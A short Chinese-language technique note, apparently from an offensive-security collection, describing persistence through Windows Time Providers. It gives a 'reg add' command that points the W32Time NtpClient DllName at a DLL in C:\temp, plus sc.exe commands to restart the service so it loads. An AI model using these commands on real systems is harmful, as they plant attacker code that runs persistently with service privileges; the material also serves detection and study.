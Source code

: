 ## Time Providers

时间提供程序以 DLL 文件的形式实现，该文件位于 System32 文件夹中；**W32Time**服务在 Windows 启动期间启动并加载 w32time.dll

需要管理员级别权限，因为指向时间提供程序 DLL 文件的注册表项存储在 HKEY_LOCAL_MACHINE 中

根据系统是用作 NTP 服务器还是 NTP 客户端，使用以下两个注册表位置

```powershell
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer
```

## 利用原理

注册表利用

```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpClient" /v DllName /t REG_SZ /d "C:\temp\w32time.dll"
```

该服务将在 Windows 启动期间启动，或者通过执行以下命令手动启动

```cmd
sc.exe stop w32time
sc.exe start w32time
```
